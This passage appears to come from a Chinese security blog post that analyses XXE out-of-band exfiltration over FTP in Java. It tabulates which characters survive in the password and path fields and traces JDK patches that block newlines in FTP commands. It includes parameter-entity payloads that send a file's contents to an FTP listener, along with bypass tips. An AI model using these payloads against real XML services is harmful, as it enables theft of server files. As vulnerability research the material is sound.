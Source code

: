 - 测试的jdk版本：**JDK7u21**
- pwd字段意义：`<!ENTITY % ftp "<!ENTITY &#37; send SYSTEM 'ftp://fakeuser:%file;@127.0.0.1:2121'>">`
- file字段意义：`<!ENTITY % ftp "<!ENTITY &#37; send SYSTEM 'ftp://fakeuser:s@127.0.0.1:2121/%file;'>">`

| 符号/位置 | \n   | [    | '    | "    | %     | &     | @     | #     | ?     | /     |
| --------- | ---- | ---- | ---- | ---- | ----- | ----- | ----- | ----- | ----- | ----- |
| pwd字段   | √    | ×    | ×    | √    | ×(*0) | ×(*0) | ×(*1) | √     | ×     | ×     |
| file字段  | √    | √    | ×    | √    | ×     | ×     | √     | √(*2) | √(*3) | √(*4) |

> - *0：org.xml.sax.SAXParseException：`%` `&`都有实际意义，不能被正常引用和替换
> - *1：java.net.UnknownHostException：@被当作用户名:密码@主机，不能正确处理
> - *2：会截断`#`之后的内容，URL锚点
> - *3：会截断`?`之后的内容，URL参数
> - *4：`/`分隔的每部分会单独出现在CWD指令中，最后一部分出现在%file

解决办法：

1. 单引号/双引号：能否正常读取取决于参数实体的写法，简单说就是用单引号来防止闭合双引号，用双引号来防止闭合单引号；
2. `<` `%` `&`等，通过`<![CDATA[<"%'&]]>`忽略特殊字符；

##### 情况二

换行符在不同版本下的情况

jdk7u131与jdk7u141的[对比](http://hg.openjdk.java.net/jdk7u/jdk7u/jdk/comparison/e890a6aef622/src/share/classes/sun/net/ftp/impl/FtpClient.java)

![1574933020030](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103809.png)

jdk8u131-b08与jdk8u131-b09的[对比](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/comparison/81ddd5fc5a4e/src/share/classes/sun/net/ftp/impl/FtpClient.java)

![1574933574859](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103810.png)

因此，通过ftp外带数据时，Java版本 **<7u141-b00** 或 **<8u131-b09** 时才不会受文件中`\n`的影响。

相关链接：https://bugzilla.redhat.com/show_bug.cgi?id=1443083



上面的修复补丁都是在`rt.jar!/sun/net/ftp/impl/FtpClient.class#issueCommand()`中增加对换行符的判断，但是四哥在[Java底层修改对XXE利用FTP通道的影响](http://scz.617.cn/misc/201911011122.txt)中提到FTP通道被阻断的时候还没有触发到`issueCommand()`，这边也来调试一下

环境JDK8u141，直接断到`issueCommand()`

发现在8u141中，对`\n`的检查确实是在`issueCommand()`，RETR返回的数据中如果有换行符就抛出`sun.net.ftp.FtpProtocolException: Illegal FTP command`，那么四哥说的在这之前有一个checkURL方法又是在哪里呢，搜一下java源码确定一下引入checkURL是在哪个版本

最终找到相关更新：http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/diff/5652862ec123/src/share/classes/sun/net/www/protocol/ftp/FtpURLConnection.java

github上相关[commit](https://github.com/JetBrains/jdk8u_jdk/commit/4aacc0da12ae2f5bb29aa1b304ba62da23bb024a#diff-3f0521a031333913976fe611f840d0ebR160)，版本是 jdk8u_jdk-jb8u232-b1638.6，时间是2019年4月份

![1574996536989](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103811.png)

1.8.0_141相关调用栈
